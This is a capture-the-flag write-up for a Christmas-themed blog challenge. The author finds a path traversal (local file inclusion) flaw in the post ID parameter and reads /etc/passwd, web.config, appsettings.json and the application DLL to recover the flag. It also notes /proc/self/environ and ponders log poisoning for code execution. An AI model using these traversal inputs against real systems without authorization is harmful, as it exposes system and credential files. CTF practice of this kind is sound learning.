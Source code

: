# Challenge

So Santa is quit the avid blogger... But what secrets can this site reveal, other than the crazy life of Santa Claus?

http://santasblog.norwayeast.azurecontainer.io/

Hint: Things are not always what they seem...

# Writeup

Looking around the page seems to give no information. There is a variable on posts ?id=xxx but it does not allow custom input as it fails it seems like.

Dirbuster shows

```
/- 
  Post
  Privacy
  lib
  js
  privacy
  index
  error
  post
```

Running whatweb shows

```bash
$ whatweb -a 3 http://santasblog.norwayeast.azurecontainer.io/
http://santasblog.norwayeast.azurecontainer.io/ [200 OK] Bootstrap, Country [UNITED STATES][US], HTML5, HTTPServer[Kestrel], IP[20.100.208.53], JQuery, PoweredBy[a], Script, Title[Home page - santasblog]
```

I try everything, based on the hint something is not as it seems on this page. But everything is as it seems. All spaces are normal. The text seems too random to be a pattern in. trying to find all capital letters on 1st and then 2nd e.t.c.

Nothing seems to work. I take a few days break.

Back at it, again looking at favicon, hexdumping it, everything is just as it looks! Suddenly I just for laughs try the simple `../../../../etc/passwd` in the post ID field, and sure enough.. Data!? Is it just a simple LFI. I mean I do not really agree on the hint in this case. It hints towards something hidden in plain sight. Oh well, this is pretty much that.. Well. I think the hint could have been better. But I understand that it should be a bit diffused to not give it away.

Oh well, with my new found power I can finally take over the world. I google **dot.net** and **Kestrel** and I see some images of file structures, common they all have web.config. So I brute force it a bit and finally hits ``../web.config``

```xml
<!--?xml version="1.0" encoding="utf-8"?-->
<configuration>
  <location path="." inheritinchildapplications="false">
    <system.webserver>
      <handlers>
        <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourcetype="Unspecified">
      </add></handlers>
      <aspnetcore processpath="dotnet" arguments=".\santasblog.dll" stdoutlogenabled="false" stdoutlogfile=".\logs\stdout" hostingmodel="inprocess">
    </aspnetcore></system.webserver>
  </location>
</configuration>
```

After a bit of trial and error I see that I have a few possibilities to figure out the path names. First I guessed that `../../` is the root folder.

```
/app/web.config
/app/santasblog.dll
/proc/self/environ
/proc/self/maps
/app/posts/151222
```

From that DLL file I get more tips for page sources:

```
/Pages/Error.cshtml
/Pages/Index.cshtml
/Pages/Post.cshtml
/Pages/Privacy.cshtml
/Pages/_ViewImports.cshtml
/Pages/_ViewStart.cshtml
/Pages/Shared/_ValidationScriptsPartial.cshtml
/Pages/Shared/_Layout.cshtml
```

I also found this dependency in that dll: `mvc.1.0.razor-page`

I tried to include these files but no luck. Not sure where they are. Annoyed as frick I go to bed. I the next day tell my findings to someone I've collabed with on this, and sure enough he finds another file from a article: `appsettings.json`

So including this we now see the flag. 

```html
<p>{
  "Logging": {
    "LogLevel": {
      "Default": "Information",
      "Microsoft.AspNetCore": "Warning"
    }
  },
  "AllowedHosts": "*",
  "Flag": "${5@N7@<em>5UR3</em>1|V35<em>@</em>CR@ZY_7|F3!!!!}"
}</p>
```

I've already tried to extract the DLL with markdown so I know that `<em>` comes around words surrounded by underscore. So replacing the tags with `_ ` gave me a successful flag extraction!

```
${5@N7@_5UR3_1|V35_@_CR@ZY_7|F3!!!!}
```

Now to get RCE on this one we would need some where we could write data. Unfortunally logging seems to be disabled on the server so I could not include log files with custom written data. 

For me it seems like it reads files and inserts them into a markdown plugin. For RCE I think the parser must allow dot.net code to be run and maybe you can include log file with a custom header or something. But for now I dont think it is possible here (?).

